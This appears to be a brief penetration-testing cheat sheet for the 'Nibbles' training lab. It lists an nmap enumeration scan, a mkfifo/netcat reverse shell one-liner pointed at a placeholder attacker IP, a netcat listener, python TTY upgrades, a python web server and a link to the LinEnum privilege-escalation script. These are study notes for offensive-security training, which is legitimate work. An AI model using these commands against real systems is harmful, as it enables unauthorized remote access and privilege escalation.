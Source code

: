 Enumeration
```shell-session
nmap -sV --open -oA nibbles_initial_scan 10.129.42.190
```
Reverse shell
````shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
````
Connecting to a reverse shell:
````shell-session
nc -lvnp <PORT>
````
Getting interactive TTY:
````bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
````
Run python server:
`sudo python3 -m http.server 8080`
Tool for automating privilege escalation:
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
